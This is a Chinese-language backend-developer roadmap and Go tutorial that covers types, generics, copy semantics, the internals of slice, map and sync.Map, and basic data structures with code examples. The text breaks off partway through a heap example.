# Back-End-Development-Roadmap

十年鹅厂：后台开发技术图谱，后台开发成长Roadmap

fork from：https://github.com/andyawang/Back-End-Development-Roadmap


# 题记

从2013年毕业加入鹅厂，不知不觉已然过去10年。期间团队一直有同学反馈，有时对个人成长有些迷茫，缺少一个后台开发的全景图谱，来建立起体系化的知识结构。这里结合自己的后台研发经验，把实战中觉得重要的知识点，整理成一个后台开发的成长RoadMap，希望给大家成长一些参考和帮助

简单把后台开发的成长RoadMap分成4个阶段：

1. **后台基础（初级）**：掌握牢固的后台基础（go、os、tcpip...）并能熟练运用，为后面的发展打下地基
2. **工程素养（中级）**：写出一手好代码，有扎实的微服务工程能力，运用好云原生和DevOps持续提升工程效率
3. **项目架构（高级）**：有扎实严谨的系统架构设计能力，独立主导大中型项目落地，一切尽在掌握中
4. **综合素养（专家）**：技术更多是工具，掌握管理、产品、商业、高效沟通协作等多维度能力，帮助业务创造价值

当然，研发是个非常重实践的活，快速过遍RoadMap有体系化的认识，重点还是日常工作的不断实践和精进。时间较仓促赶的初稿，后续持续更新并补些参考材料和书籍，如果内容有错误和疏漏，帮忙多评论指正

# 后台基础篇（初级）

## 编程语言

### **类型**：类型推断type，断言表达式x.(T)，使用泛型Any

  ==》

#### go语言的类型推断（Type Inference）

```go
// Go的短变量声明
name := "张三"           // 推断为string
age := 25              // 推断为int
scores := []int{85, 92, 78}  // 推断为[]int

// 函数返回类型推断
func calculate(a, b int) (result int) {
    result = a + b  // 返回类型已声明
    return          // 自动返回result
}
```

#### 类型断言（Type Assertion）

```go
package main

import "fmt"

// 空接口可以存储任何类型
func processValue(value interface{}) {
    // 基本类型断言
    if str, ok := value.(string); ok {
        fmt.Printf("字符串: %s, 长度: %d\n", str, len(str))
    } else if num, ok := value.(int); ok {
        fmt.Printf("数字: %d, 平方: %d\n", num, num*num)
    } else {
        fmt.Printf("未知类型: %T\n", value)
    }
}

// 类型switch
func classifyValue(value interface{}) {
    switch v := value.(type) {
    case string:
        fmt.Printf("字符串: %q\n", v)
    case int:
        fmt.Printf("整数: %d\n", v)
    case bool:
        fmt.Printf("布尔: %t\n", v)
    default:
        fmt.Printf("未知类型: %T\n", v)
    }
}

// 实际应用：JSON解析
func parseUserData(data interface{}) {
    if userMap, ok := data.(map[string]interface{}); ok {
        if name, ok := userMap["name"].(string); ok {
            fmt.Println("用户名:", name)
        }
        if age, ok := userMap["age"].(float64); ok { // JSON数字默认float64
            fmt.Println("年龄:", int(age))
        }
    }
}

func main() {
    processValue("hello")     // 字符串: hello, 长度: 5
    processValue(42)         // 数字: 42, 平方: 1764
    classifyValue(true)       // 布尔: true
    
    userData := map[string]interface{}{
        "name": "张三",
        "age":  25.0,
    }
    parseUserData(userData)  // 用户名: 张三, 年龄: 25
}
```


#### **Any** 类型

**Go语言中的interface{}（类似Any）**

```go
package main

import (
    "encoding/json"
    "fmt"
    "reflect"
)

// interface{} 可以存储任何类型
func handleAnyType(data interface{}) {
    // 使用反射获取类型信息
    fmt.Printf("值: %v, 类型: %T, 反射类型: %v\n", 
        data, data, reflect.TypeOf(data))
}

// 实际应用：通用容器
type AnyContainer struct {
    Value interface{}
}

func (c *AnyContainer) SetValue(v interface{}) {
    c.Value = v
}

func (c *AnyContainer) GetString() (string, bool) {
    if str, ok := c.Value.(string); ok {
        return str, true
    }
    return "", false
}

func (c *AnyContainer) GetInt() (int, bool) {
    // 处理JSON数字（float64）
    if num, ok := c.Value.(float64); ok {
        return int(num), true
    }
    if num, ok := c.Value.(int); ok {
        return num, true
    }
    return 0, false
}

// JSON处理示例
func processJSON(data []byte) {
    var result map[string]interface{}
    
    if err := json.Unmarshal(data, &result); err != nil {
        panic(err)
    }
    
    // 动态处理JSON字段
    for key, value := range result {
        fmt.Printf("字段 %s: ", key)
        
        switch v := value.(type) {
        case string:
            fmt.Printf("字符串: %q\n", v)
        case float64:
            fmt.Printf("数字: %.0f\n", v)
        case bool:
            fmt.Printf("布尔: %t\n", v)
        case []interface{}:
            fmt.Printf("数组, 长度: %d\n", len(v))
        case map[string]interface{}:
            fmt.Printf("对象, 键数量: %d\n", len(v))
        default:
            fmt.Printf("未知类型: %T\n", v)
        }
    }
}

func main() {
    // 测试Any类型处理
    container := AnyContainer{}
    
    container.SetValue("Hello")
    if str, ok := container.GetString(); ok {
        fmt.Println("字符串值:", str)  // 字符串值: Hello
    }
    
    container.SetValue(42)
    if num, ok := container.GetInt(); ok {
        fmt.Println("数字值:", num)  // 数字值: 42
    }
    
    // JSON处理示例
    jsonData := `{
        "name": "张三",
        "age": 25,
        "active": true,
        "scores": [85, 92, 78],
        "profile": {"level": 3}
    }`
    
    processJSON([]byte(jsonData))
}
```


#### **Go 1.18+ 泛型**

不预设类型，在使用中推断。

函数泛型

结构体泛型

泛型约束（Type Constraints）


```go
package main

import "fmt"

// 基础泛型函数
func PrintSlice[T any](slice []T) {
    for _, v := range slice {
        fmt.Print(v, " ")
    }
    fmt.Println()
}

// 泛型约束
type Number interface {
    int | float64 | float32 | int64 //类型联合（Type Union）
}

func Sum[T Number](numbers []T) T {
    var total T
    for _, num := range numbers {
        total += num
    }
    return total
}

// ~ 表示包括该类型的底层类型
type MyInt int

type Integer interface {
    ~int | ~int32 | ~int64  // 包括MyInt（底层类型是int）
}

func ProcessInteger[T Integer](value T) T {
    return value * 2
}

// 泛型结构体
type Container[T any] struct {
    Value T
}

func (c *Container[T]) Set(value T) {
    c.Value = value
}

func (c *Container[T]) Get() T {
    return c.Value
}

// 实际应用：通用Repository模式
type Entity interface {
    User | Product
}

type User struct {
    ID   int
    Name string
}

type Product struct {
    ID    int
    Name  string
    Price float64
}

type Repository[T Entity] struct {
    items []T
}

func (r *Repository[T]) Add(item T) {
    r.items = append(r.items, item)
}

func (r *Repository[T]) FindByID(id int) *T {
    for _, item := range r.items {
        // 使用类型断言访问ID字段
        if getID(item) == id {
            return &item
        }
    }
    return nil
}

// 辅助函数获取ID（因为Go泛型不能直接访问字段）
func getID[T Entity](entity T) int {
    switch e := any(entity).(type) {
    case User:
        return e.ID
    case Product:
        return e.ID
    default:
        return 0
    }
}

func main() {
    // 使用泛型函数
    intSlice := []int{1, 2, 3, 4, 5}
    floatSlice := []float64{1.1, 2.2, 3.3}
    
    PrintSlice(intSlice)    // 1 2 3 4 5
    PrintSlice(floatSlice)  // 1.1 2.2 3.3
    
    //泛型约束
    fmt.Println("Int sum:", Sum(intSlice))      // 15
    fmt.Println("Float sum:", Sum(floatSlice))  // 6.6
    
    //~操作符（近似约束）​
    var x MyInt = 10
    result := ProcessInteger(x)  // MyInt类型可以传入
    fmt.Println(result)         // 20
    
    // 使用泛型容器(结构体)
    stringContainer := Container[string]{}
    stringContainer.Set("Hello")
    fmt.Println("String:", stringContainer.Get())  // Hello
    
    // 使用泛型Repository
    userRepo := Repository[User]{}
    userRepo.Add(User{ID: 1, Name: "张三"})
    userRepo.Add(User{ID: 2, Name: "李四"})
    
    if user := userRepo.FindByID(1); user != nil {
        fmt.Println("找到用户:", user.Name)  // 张三
    }
    
}
```


### **变量赋值**：深拷贝/浅拷贝区别

**1. 基本概念**

**浅拷贝（Shallow Copy）**

- **只复制引用**，不复制实际数据
- 新旧对象**共享同一块内存**
- 修改一个会影响另一个

**深拷贝（Deep Copy）**

- **完全复制数据**，创建独立的新对象
- 新旧对象**内存完全独立**
- 修改一个不会影响另一个


**基础类型 vs 引用类型**

```go
// 基础类型总是深拷贝
// 基础类型包括：int, float, bool, string, array, struct等
a := 10
b := a  // 深拷贝：创建新的内存空间
b = 20  // 修改b不会影响a

fmt.Println(a) // 10
fmt.Println(b) // 20


// 引用类型默认是浅拷贝
// 引用类型包括：slice, map, channel, pointer, function等
slice1 := []int{1, 2, 3}
slice2 := slice1  // 浅拷贝：共享底层数组
slice2[0] = 999   // 修改slice2会影响slice1

fmt.Println(slice1) // [999 2 3]
fmt.Println(slice2) // [999 2 3]


// 数组是值类型 - 深拷贝
arr1 := [3]int{1, 2, 3}
arr2 := arr1  // 深拷贝
arr2[0] = 999
fmt.Println("数组:")
fmt.Println("arr1:", arr1) // [1 2 3]
fmt.Println("arr2:", arr2) // [999 2 3]

// 切片是引用类型 - 浅拷贝
slice1 := []int{1, 2, 3}
slice2 := slice1  // 浅拷贝
slice2[0] = 999
fmt.Println("\n切片:")
fmt.Println("slice1:", slice1) // [999 2 3]
fmt.Println("slice2:", slice2) // [999 2 3]


type Person struct {
    Name string
    Age  int
    Tags []string  // 引用类型字段
}

// 结构体赋值是浅拷贝
p1 := Person{
    Name: "Alice",
    Age:  25,
    Tags: []string{"golang", "backend"},
}

p2 := p1  // 浅拷贝：基础字段深拷贝，引用字段浅拷贝
p2.Name = "Bob"    // 不影响p1
p2.Tags[0] = "java" // 影响p1的Tags

fmt.Println("p1:", p1) // {Alice 25 [java backend]}
fmt.Println("p2:", p2) // {Bob 25 [java backend]}

// 深拷贝实现
// 1、手动深拷贝--make
func deepCopyPerson(p Person) Person {
    // 复制基础字段
    newPerson := Person{
        Name: p.Name,
        Age:  p.Age,
    }
    
    // 深拷贝切片
    if p.Tags != nil {
        newPerson.Tags = make([]string, len(p.Tags))
        copy(newPerson.Tags, p.Tags)  // 复制元素
    }
    
    return newPerson
}
p1 := Person{
    Name: "Alice", 
    Tags: []string{"golang", "backend"},
}

p2 := deepCopyPerson(p1)
p2.Tags[0] = "java"  // 不影响p1

fmt.Println("p1.Tags:", p1.Tags) // [golang backend]
fmt.Println("p2.Tags:", p2.Tags) // [java backend]

//2、使用序列化实现通用深拷贝
func deepCopyJSON(src, dest interface{}) error {
    bytes, err := json.Marshal(src)
    if err != nil {
        return err
    }
    return json.Unmarshal(bytes, dest)
}

// 3、copy() 函数用于切片
slice1 := []int{1, 2, 3}

// 深拷贝
slice3 := make([]int, len(slice1))
copy(slice3, slice1)  // 复制元素到新切片
slice3[0] = 888      // 不影响slice1

fmt.Println("slice1:", slice1) // [999 2 3]
fmt.Println("slice3:", slice3) // [888 2 3]


```


### 容器：array/slice/set/map/sync.map

各容器的底层结构/操作性能/**扩容策略**/并发安全。

#### Array

**底层结构**

```go
// 固定大小的连续内存块
var arr [5]int        // 5个int的连续内存
arr := [3]string{"a", "b", "c"}  // 编译时确定大小
```

**性能特性**

```go
// O(1) 随机访问
value := arr[2]        // 直接内存地址计算

// 内存布局紧凑，缓存友好
// 大小固定，无法动态扩容
```

**操作实例**

```go
func arrayOperations() {
    // 声明和初始化
    var nums [5]int
    names := [3]string{"Alice", "Bob", "Charlie"}
    
    // 访问和修改
    nums[0] = 10
    value := names[1]  // "Bob"
    
    // 遍历
    for i, v := range nums {
        fmt.Printf("索引%d: 值%d\n", i, v)
    }
    
    // 长度是类型的一部分
    fmt.Printf("类型: %T, 长度: %d\n", nums, len(nums)) // [5]int, 5
}
```


#### **Slice（切片）**

**底层结构**

```go
type slice struct {
    array unsafe.Pointer  // 指向底层数组
    len   int            // 当前长度
    cap   int            // 总容量
}
```

**内存布局**

```go
// 切片的三部分：指针、长度、容量
slice := make([]int, 3, 5)
// 内存: [ptr][len=3][cap=5] → 指向底层数组[0,0,0,_,_]
```

**扩容策略**

```go
// 伪代码：扩容决策
func growslice(oldSlice []T, newCapacity int) []T {
    // 1. 计算新容量
    // 2. 分配新内存
    // 3. 复制数据
    // 4. 返回新切片
}

func growSlice(oldSlice []int, newCapacity int) []int {
    newSlice := make([]int, len(oldSlice), newCapacity)
    copy(newSlice, oldSlice)
    return newSlice
}

// Go实际扩容规则：// 基于Go源码的扩容逻辑（src/runtime/slice.go）
func growslice(et *_type, old slice, cap int) slice {
    // 计算新容量
    newcap := old.cap
    doublecap := newcap + newcap
    
    if cap > doublecap {
        newcap = cap
    } else {
        if old.cap < 1024 {
            newcap = doublecap  // 小切片：双倍扩容
        } else {
            // 大切片：每次增长25%
            newcap += newcap / 4
            if newcap <= 0 {
                newcap = cap
            }
        }
    }
    
    // 内存对齐调整
    newcap = roundupsize(newcap)
    
    // 创建新切片并复制数据
    // ...
}

// 扩容策略
策略1：所需容量 > 双倍当前容量
策略2：小切片双倍扩容（<1024）
设计理由​​：
​​摊销成本​​：小切片扩容频繁，双倍扩容将均摊时间复杂度降到O(1)
​​空间换时间​​：多分配一些空间减少后续扩容次数
​​缓存友好​​：连续内存分配有利于CPU缓存
策略3：大切片25%增长（≥1024）
设计理由​​：
​​内存节约​​：大切片占用内存多，25%增长避免过度浪费
​​渐进式增长​​：避免一次性分配过大内存

```


**性能特性**

| 操作         | 时间复杂度 | 说明         |
| :----------- | :--------- | :----------- |
| 访问元素     | O(1)       | 直接索引     |
| 追加(有容量) | O(1)       | 无需扩容     |
| 追加(需扩容) | O(n)       | 复制所有元素 |
| 切片操作     | O(1)       | 创建新切片头 |
| 拷贝         | O(n)       | 复制元素     |

**操作示例**

```go
func sliceOperations() {
    // 创建切片
    s1 := make([]int, 0, 10)     // 长度0，容量10
    s2 := []int{1, 2, 3}         // 字面量
    s3 := make([]int, 5)         // 长度和容量都是5
    
    // 追加和扩容
    for i := 0; i < 20; i++ {
        s1 = append(s1, i)
        fmt.Printf("长度: %d, 容量: %d\n", len(s1), cap(s1))
    }
    
    // 切片操作（共享底层数组）
    sub := s2[1:3]  // 共享s2的底层数组
    
    // 拷贝（不共享）
    s4 := make([]int, len(s2))
    copy(s4, s2)    // 深拷贝
}
```


#### **Map（哈希表）**

**底层结构**

```go
type hmap struct {
    // 基本状态
    count     int        // 当前元素数量
    flags     uint8      // 状态标志位
    B         uint8      // 桶数量的对数(实际桶数 = 2^B)
    noverflow uint16     // 溢出桶数量
    
    // 哈希相关
    hash0     uint32     // 哈希种子（随机化）
    
    // 桶管理
    buckets    unsafe.Pointer  // 指向桶数组的指针
    oldbuckets unsafe.Pointer  // 扩容时指向旧桶数组
    nevacuate  uintptr         // 搬迁进度计数器
    
    // 可选字段（实际源码中还有更多）
    extra *mapextra  // 可选字段，用于优化小对象存储
}

```

字段说明：

```go
==>
1、count - 元素计数器
作用​​：
实现len(map)的O(1)时间复杂度
快速判断map是否为空
触发扩容的决策依据

2、B - 桶数量对数
// B表示桶数组大小的对数
// 实际桶数量 = 2^B
B = 3  // 桶数量 = 2^3 = 8
B = 5  // 桶数量 = 2^5 = 32

​​为什么用对数存储​​：
节省空间：只需要1字节存储B，而不是4字节存储桶数量
计算方便：位运算替代除法
扩容简单：B++即可双倍扩容

3、hash0 - 哈希种子​
作用​​：
​​防止哈希碰撞攻击​​：每个map不同种子，攻击者难以预测
​​分散键分布​​：相同键在不同map中可能落到不同桶
​​随机化​​：避免最坏情况下的性能退化

4、buckets & oldbuckets - 桶指针​
// 正常情况
buckets    → [bucket0][bucket1][bucket2]...  // 当前使用的桶数组
oldbuckets → nil                             // 未在扩容

// 扩容过程中
buckets    → [new_bucket0][new_bucket1]...   // 新桶数组（2倍大小）
oldbuckets → [old_bucket0][old_bucket1]...   // 旧桶数组（逐步迁移）

5、nevacuate - 搬迁进度​
// 渐进式扩容的关键字段
type hmap struct {
    nevacuate uintptr  // 下一个要搬迁的旧桶索引
}

// 在每次操作时搬迁少量桶
func mapassign(t *maptype, h *hmap, key unsafe.Pointer) unsafe.Pointer {
    // 如果正在扩容，搬迁1-2个桶
    if h.growing() {
        growWork(t, h, bucket)
    }
    // ...
}

```


**哈希桶结构**

```go
type bmap struct {
    tophash [bucketCnt]uint8  // 键哈希的高8位
    keys    [bucketCnt]keyType // 键数组
    values  [bucketCnt]valType // 值数组
    overflow *bmap            // 溢出桶指针
}
```

**扩容策略**

```go
// 触发扩容的条件
func mapassign(t *maptype, h *hmap, key unsafe.Pointer) unsafe.Pointer {
    // 1. 装载因子超过6.5
    if !h.growing() && (overLoadFactor(h.count+1, h.B) || tooManyOverflowBuckets(h.noverflow, h.B)) {
        hashGrow(t, h)
        goto again
    }
}

func overLoadFactor(count int, B uint8) bool {
    return count > bucketCnt && uintptr(count) > loadFactorNum*(bucketShift(B)/loadFactorDen)
}
// loadFactor = 13/2 = 6.5
```

**性能特性**

| 操作 | 平均复杂度 | 最坏情况 | 说明           |
| :--- | :--------- | :------- | :------------- |
| 插入 | O(1)       | O(n)     | 哈希冲突时退化 |
| 查找 | O(1)       | O(n)     | 同插入         |
| 删除 | O(1)       | O(n)     | 同插入         |
| 遍历 | O(n)       | O(n)     | 随机顺序       |

**操作示例**

```go
func mapOperations() {
    // 创建map
    m1 := make(map[string]int)
    m2 := map[string]int{"a": 1, "b": 2}
    
    // 基本操作
    m1["key1"] = 100          // 插入
    value := m1["key1"]        // 查找
    delete(m1, "key1")        // 删除
    
    // 安全操作
    if val, exists := m1["key2"]; exists {
        fmt.Println("存在:", val)
    }
    
    // 遍历（无序）
    for k, v := range m2 {
        fmt.Printf("%s: %d\n", k, v)
    }
    
    // 并发不安全！需要sync.Mutex或sync.Map
}
```


#### **sync.Map（并发安全Map）**

**底层结构**

```go
type Map struct {
    mu Mutex
    read atomic.Value // 只读部分 readOnly
    dirty map[interface{}]*entry // 可写部分
    misses int // 未命中次数
}

type readOnly struct {
    m       map[interface{}]*entry
    amended bool // dirty是否包含m中没有的key
}

type entry struct {
    p unsafe.Pointer // *interface{}
}
```

**读写分离策略**

```go
// 读取优先路径
func (m *Map) Load(key interface{}) (value interface{}, ok bool) {
    read, _ := m.read.Load().(readOnly)
    e, ok := read.m[key]
    if !ok && read.amended {
        m.mu.Lock()
        // 检查dirty map...
        m.mu.Unlock()
    }
    // ...
}
```

**性能特性**

| 场景     | 性能     | 说明           |
| :------- | :------- | :------------- |
| 读多写少 | 接近O(1) | 无锁读取       |
| 写多读少 | 较差     | 频繁加锁       |
| 键值稳定 | 优秀     | 适合配置类数据 |
| 频繁更新 | 一般     | 需要锁竞争     |

**操作示例**

```go
func syncMapOperations() {
	var sm sync.Map

	// 存储
	sm.Store("key1", "value1")
	sm.Store("key2", 42)

	// 加载
	if value, ok := sm.Load("key1"); ok {
		fmt.Println("找到:", value)
	}

	// 加载或存储
	actual, loaded := sm.LoadOrStore("key3", "default")
	fmt.Println("加载或存储:", actual, loaded)

	// 遍历
	sm.Range(func(key, value interface{}) bool {
		fmt.Printf("%v: %v\n", key, value)
		return true // 继续遍历
	})

	// 删除
	sm.Delete("key1")
}

// 输出：
找到: value1
加载或存储: default false
key1: value1
key2: 42
key3: default
```

### 数据结构和算法：queue/stack/heap、sort、使用gods库

#### **Queue（队列）**

FIFO 先进先出

**基于Slice的实现**

```go
// 简单队列实现
type Queue[T any] struct {
    items []T
}

func NewQueue[T any]() *Queue[T] {
    return &Queue[T]{items: make([]T, 0)}
}

func (q *Queue[T]) Enqueue(item T) {
    q.items = append(q.items, item)
}

func (q *Queue[T]) Dequeue() (T, bool) {
    if len(q.items) == 0 {
        var zero T
        return zero, false
    }
    item := q.items[0]
    q.items = q.items[1:]
    return item, true
}

func (q *Queue[T]) Peek() (T, bool) {
    if len(q.items) == 0 {
        var zero T
        return zero, false
    }
    return q.items[0], true
}

func (q *Queue[T]) Size() int {
    return len(q.items)
}

func (q *Queue[T]) IsEmpty() bool {
    return len(q.items) == 0
}
```

**环形缓冲区队列（高性能）**

```go
type CircularQueue[T any] struct {
    items []T
    head  int
    tail  int
    size  int
}

func NewCircularQueue[T any](capacity int) *CircularQueue[T] {
    return &CircularQueue[T]{
        items: make([]T, capacity),
        head:  0,
        tail:  0,
        size:  0,
    }
}

func (q *CircularQueue[T]) Enqueue(item T) bool {
    if q.size == len(q.items) {
        return false // 队列已满
    }
    q.items[q.tail] = item
    q.tail = (q.tail + 1) % len(q.items)
    q.size++
    return true
}

func (q *CircularQueue[T]) Dequeue() (T, bool) {
    if q.size == 0 {
        var zero T
        return zero, false
    }
    item := q.items[q.head]
    q.head = (q.head + 1) % len(q.items)
    q.size--
    return item, true
}
```

==》 优化go slice实现的queue，

1、内存方面：前者的底层array会不断增大，前面的空间会被浪费，且出队时会创建新slice，复制数据。



#### **Stack（栈）**

**基于Slice的实现**

```go
type Stack[T any] struct {
    items []T
}

func NewStack[T any]() *Stack[T] {
    return &Stack[T]{items: make([]T, 0)}
}

func (s *Stack[T]) Push(item T) {
    s.items = append(s.items, item)
}

func (s *Stack[T]) Pop() (T, bool) {
    if len(s.items) == 0 {
        var zero T
        return zero, false
    }
    lastIndex := len(s.items) - 1
    item := s.items[lastIndex]
    s.items = s.items[:lastIndex]
    return item, true
}

func (s *Stack[T]) Peek() (T, bool) {
    if len(s.items) == 0 {
        var zero T
        return zero, false
    }
    return s.items[len(s.items)-1], true
}

func (s *Stack[T]) Size() int {
    return len(s.items)
}

func (s *Stack[T]) IsEmpty() bool {
    return len(s.items) == 0
}
```

**栈的应用：括号匹配**

```go
func isValidParentheses(s string) bool {
    stack := NewStack[rune]()
    pairs := map[rune]rune{
        ')': '(',
        ']': '[', 
        '}': '{',
    }
    
    for _, char := range s {
        switch char {
        case '(', '[', '{':
            stack.Push(char)
        case ')', ']', '}':
            if stack.IsEmpty() {
                return false
            }
            top, _ := stack.Pop()
            if top != pairs[char] {
                return false
            }
        }
    }
    
    return stack.IsEmpty()
}

// 测试
fmt.Println(isValidParentheses("()[]{}"))  // true
fmt.Println(isValidParentheses("([)]"))    // false
```


#### Heap(堆)

最小堆、最大堆

**最小堆**：堆顶是最小元素，用于保留最大的K个元素


**使用container/heap包**

```go
import "container/heap"

// 最小堆实现
type IntHeap []int

func (h IntHeap) Len() int           { return len(h) }
func (h IntHeap) Less(i, j int) bool { return h[i] < h[j] }
func (h IntHeap) Swap(i, j int)      { h[i], h[j] = h[j], h[i] }

func (h *IntHeap) Push(x interface{}) {
    *h = append(*h, x.(int))
}

func (h *IntHeap) Pop() interface{} {
    old := *h
    n := len(old)
    x := old[n-1]
    *h = old[0 : n-1]
    return x
}

// 最大堆（反转比较逻辑）
type MaxHeap []int

func (h MaxHeap) Len() int           { return len(h) }
func (h MaxHeap) Less(i, j int) bool { return h[i] > h[j] } // 改为大于
func (h MaxHeap) Swap(i, j int)      { h[i], h[j] = h[j], h[i] }

func (h *MaxHeap) Push(x interface{}) { /* 同IntHeap */ }
func (h *MaxHeap) Pop() interface{}  { /* 同IntHeap */ }
```


**堆应用：Top K问题**

```go
func topKLargest(nums []int, k int) []int {
	h := &IntHeap{}
	heap.Init(h)

	for _, num := range nums {
		heap.Push(h, num)
		if h.Len() > k {
			heap.Pop(h) // 移除最小的，保留最大的K个
		}
	}

	// 提取结果（从大到小）
	result := make([]int, k)
	for i := k - 1; i >= 0; i-- {
		result[i] = heap.Pop(h).(int)
	}

	return result
}

func main() {
	nums := []int{1, 1, 1, 2, 2, 3, 4, 4, 4, 4}
	k := 2

	result := topKLargest(nums, k)
	fmt.Printf("数组: %v\n", nums)
	fmt.Printf("Top %d 频繁元素: %v\n", k, result)
	// 数组: [1 1 1 2 2 3 4 4 4 4]
	// Top 2 频繁元素: [4 4]

}
```

#### sort

内置sort包，支持自定义比较器

**内置排序**

```go
import "sort"

func basicSorting() {
    // 整数排序
    nums := []int{3, 1, 4, 1, 5, 9, 2, 6}
    sort.Ints(nums)
    fmt.Println("升序:", nums) // [1 1 2 3 4 5 6 9]
    
    // 降序排序
    sort.Sort(sort.Reverse(sort.IntSlice(nums)))
    fmt.Println("降序:", nums) // [9 6 5 4 3 2 1 1]
    
    // 字符串排序
    names := []string{"Charlie", "Alice", "Bob"}
    sort.Strings(names)
    fmt.Println("字符串排序:", names) // [Alice Bob Charlie]
    
    // 自定义排序
    people := []struct {
        Name string
        Age  int
    }{
        {"Alice", 25},
        {"Bob", 30},
        {"Charlie", 20},
    }
    
    // 按年龄排序
    sort.Slice(people, func(i, j int) bool {
        return people[i].Age < people[j].Age
    }) //闭包，匿名函数访问外部people变量
    fmt.Println("按年龄排序:", people)
}

==> 输出
升序: [1 1 2 3 4 5 6 9]
降序: [9 6 5 4 3 2 1 1]
字符串排序: [Alice Bob Charlie]
按年龄排序: [{Charlie 20} {Alice 25} {Bob 30}]
```

**稳定排序**

```go
func stableSorting() {
    students := []struct {
        Name  string
        Grade int
    }{
        {"Alice", 85},
        {"Bob", 92},
        {"Charlie", 85},
        {"David", 78},
    }
    
    // 稳定排序：相同成绩保持原顺序
    sort.SliceStable(students, func(i, j int) bool {
        return students[i].Grade > students[j].Grade
    })
    
    fmt.Println("按成绩稳定排序:")
    for _, s := range students {
        fmt.Printf("%s: %d\n", s.Name, s.Grade)
    }
}
```

**自定义排序接口**

```go
type Person struct {
    Name string
    Age  int
}

type ByAge []Person

func (a ByAge) Len() int           { return len(a) }
func (a ByAge) Swap(i, j int)      { a[i], a[j] = a[j], a[i] }
func (a ByAge) Less(i, j int) bool { return a[i].Age < a[j].Age }

func customSortExample() {
    people := []Person{
        {"Alice", 25},
        {"Bob", 30},
        {"Charlie", 20},
    }
    
    sort.Sort(ByAge(people))
    fmt.Println("按年龄排序:", people)
}
```


#### **使用gods库**

```go
go get github.com/emirpasic/gods
import (
    "github.com/emirpasic/gods/lists/arraylist"
    "github.com/emirpasic/gods/sets/hashset"
    "github.com/emirpasic/gods/maps/hashmap"
    "github.com/emirpasic/gods/stacks/linkedliststack"
    "github.com/emirpasic/gods/queues/linkedlistqueue"
    "github.com/emirpasic/gods/trees/binaryheap"
    "github.com/emirpasic/gods/utils"
)

```

**ArrayList（动态数组）**

```go
func arrayListExample() {
    list := arraylist.New()
    list.Add("a")                   // ["a"]
    list.Add("c", "b")              // ["a","c","b"]
    list.Sort(utils.StringComparator) // ["a","b","c"]
    
    fmt.Println("列表:", list.Values()) // [a b c]
    fmt.Println("包含b?", list.Contains("b")) // true
    
    list.Remove(1) // 移除索引1的元素
    fmt.Println("移除后:", list.Values()) // [a c]
    
    // 迭代
    it := list.Iterator()
    for it.Next() {
        index, value := it.Index(), it.Value()
        fmt.Printf("索引%d: %v\n", index, value)
    }
}
```

**HashSet（集合）**

```go
func hashSetExample() {
    set := hashset.New()
    set.Add(1)          // {1}
    set.Add(2, 2, 3)    // {1, 2, 3} (去重)
    
    fmt.Println("集合:", set.Values()) // [1 2 3]
    fmt.Println("大小:", set.Size())   // 3
    fmt.Println("包含2?", set.Contains(2)) // true
    
    set.Remove(2)
    fmt.Println("移除后:", set.Values()) // [1 3]
    
    // 集合运算
    otherSet := hashset.New(2, 3, 4)
    union := set.Union(otherSet)        // 并集 {1,2,3,4}
    intersection := set.Intersection(otherSet) // 交集 {3}
    
    fmt.Println("并集:", union.Values())
    fmt.Println("交集:", intersection.Values())
}
```

**HashMap（字典）**

```go
func hashMapExample() {
    m := hashmap.New()
    m.Put("apple", 1)
    m.Put("banana", 2)
    m.Put("cherry", 3)
    
    fmt.Println("映射:", m) // map[apple:1 banana:2 cherry:3]
    
    if value, exists := m.Get("apple"); exists {
        fmt.Println("apple的值:", value) // 1
    }
    
    m.Remove("banana")
    fmt.Println("移除后:", m.Keys()) // [apple cherry]
    
    // 迭代
    it := m.Iterator()
    for it.Next() {
        key, value := it.Key(), it.Value()
        fmt.Printf("键:%v, 值:%v\n", key, value)
    }
}
```

**Stack和Queue**

```go
func stackQueueExample() {
    // 栈
    stack := linkedliststack.New()
    stack.Push(1)
    stack.Push(2)
    stack.Push(3)
    
    top, _ := stack.Peek()
    fmt.Println("栈顶:", top) // 3
    
    for !stack.Empty() {
        val, _ := stack.Pop()
        fmt.Println("出栈:", val) // 3, 2, 1
    }
    
    // 队列
    queue := linkedlistqueue.New()
    queue.Enqueue(1)
    queue.Enqueue(2)
    queue.Enqueue(3)
    
    for !queue.Empty() {
        val, _ := queue.Dequeue()
        fmt.Println("出队:", val) // 1, 2, 3
    }
}
```

**Heap（堆）**

```go
func heapExample() {
    // 最小堆
    heap := binaryheap.NewWithIntComparator()
    heap.Push(3)
    heap.Push(1)
    heap.Push(4)
    heap.Push(1)
    heap.Push(5)
    
    fmt.Println("堆大小:", heap.Size()) // 5
    
